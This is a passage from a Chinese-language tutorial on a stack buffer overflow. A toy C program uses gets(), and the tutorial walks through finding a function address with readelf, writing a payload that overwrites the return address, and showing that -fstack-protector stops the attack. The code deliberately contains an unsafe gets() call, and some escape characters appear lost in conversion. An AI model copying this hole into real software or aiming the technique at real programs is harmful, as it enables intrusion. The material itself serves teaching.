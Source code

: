 <br>

**0x01 利用例子**

使用一个小的C程序，demo.c：

```
int
    main(void)
    `{`
        char name[8];
        gets(name);
        printf("Hello, %s.n", name);
        return 0;
    `}`
```

它读取一个名字存到缓冲区中，并且以换行结尾打印出来。麻雀虽小五脏俱全。原生调用gets()不会校验缓冲区的边界，可以用来缓冲区溢出漏洞利用。很明显编译器和链接器都会抛出警告。

简单起见，假设程序包含危险函数。

```
void    
    self_destruct(void)
    `{`
        puts("**** GO BOOM! ****");
    `}`
```

攻击者用缓冲区溢出来调用这个危险函数。

为了使攻击简单，假设程序不使用ASLR（例如，在GCC/Clang中不使用-fpie和-pie编译选项）。首先，找到self_destruct()函数地址。

```
$ readelf -a demo | grep self_destruct    
    46: 00000000004005c5  10 FUNC  GLOBAL DEFAULT 13 self_destruct
```

因为在64位系统上面，所以是64位的地址。Name缓冲区的大小事8字节，在汇编我看到一个额外的8字节分配上面，所以有16个字节填充，然后8字节覆盖self_destruct的返回指针。

```
$ echo -ne 'xxxxxxxxyyyyyyyyxc5x05x40x00x00x00x00x00' &gt; boom    
    $ ./demo &lt; boom
    Hello, xxxxxxxxyyyyyyyy?@.
    **** GO BOOM! ****
    Segmentation fault
```

使用这个输入我已经成功利用了缓冲区溢出来控制了执行。当main试图回到libc时，它将会跳转到威胁代码，然后崩溃。打开堆栈保护可以阻止这种利用。

```
$ gcc -Os -fstack-protector -o demo demo.c    
    $ ./demo &lt; boom
    Hello, xxxxxxxxaaaaaaaa?@.
    *** stack smashing detected ***: ./demo terminated
    ======= Backtrace: =========
    ... lots of backtrace stuff ...
```
